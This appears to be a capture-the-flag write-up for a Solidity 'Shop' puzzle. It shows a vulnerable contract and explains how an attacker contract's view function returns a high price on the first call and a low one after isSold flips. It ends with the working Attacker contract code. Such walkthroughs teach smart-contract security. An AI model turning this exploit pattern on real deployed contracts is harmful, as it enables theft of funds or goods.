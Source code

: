 # Shop

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

## Goal

Buy the item from the shop for less than 100, make the value of the price variable inside Shop to be less than 100

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

This CTF is somewhat similar to the Elevator one.

The Attacker contract should implement the price() function from the Buyer interface and return different value the second time this function is called.

This time we won't depend on additional variable (we used count in the Elevator CTF), but we will hack our way into the isSold variable which is set to false by default.

If we take a look in the if statement, when the buy() function is called

```
  if (_buyer.price() >= price && !isSold) {
    isSold = true;
    price = _buyer.price();
  }

```

when price() function is called for the first time from the Attacker contract, it should return value greater than 100, and inside the if, when the same function is called second time, it should return value less than 100, and therefore set the value of the price variable inside Shop to that value.

What we need to figure out is how to track wether price() is called for the first or second time.

This can be done with the use of the isSold variable.
When we call price() function for the first time we know that isSold is false by default and we can return some value like 130 for example from our price function.

Before calling price() again, isSold variable is set to true, one line before, so inside price() we can check the value of the isSold variable, and if this value is true we return value less than 100

To exploit the contract we need to:

1. create Attacker contract, and create instance from the Shop contract inside the Attacker contract
2. create buyCheaper() external function inside Attacker, and call the buy() function inside Shop within
3. impelment/create price() function from Buyer interface, and inside
  <ul>
  <li>if isSold variable from Shop contract is false, return value equal or greater than 100</li>
  <li>if isSold variable from Shop contract is true, return value less than 100</li>
  </ul>
4. call buyCheaper() function from our account

## Attacker contract code

```
contract Attacker {
    Shop private immutable shop;

    constructor(address _shop) {
        shop = Shop(_shop);
    }

    function buyCheaper() external {
        shop.buy();
    }

    function price() external view returns (uint) {
        if(!shop.isSold()) {
            return 130;
        } else return 30;
    }
}
```
